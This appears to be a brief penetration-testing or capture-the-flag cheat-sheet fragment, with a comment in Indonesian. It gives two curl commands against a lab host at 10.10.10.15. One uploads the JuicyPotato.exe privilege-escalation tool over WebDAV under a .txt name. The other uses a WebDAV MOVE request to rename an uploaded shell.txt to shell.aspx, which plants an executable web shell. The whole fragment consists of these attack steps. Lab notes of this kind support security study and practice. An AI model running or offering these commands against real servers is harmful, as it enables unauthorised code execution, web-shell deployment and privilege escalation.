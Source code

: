 # webdav upload file binary

    curl -X PUT http://10.10.10.15/met.txt --data-binary @JuicyPotato.exe

# move buat rename

    curl -X MOVE --header 'Destination:http://10.10.10.15/shell.aspx' 'http://10.10.10.15/shell.txt'

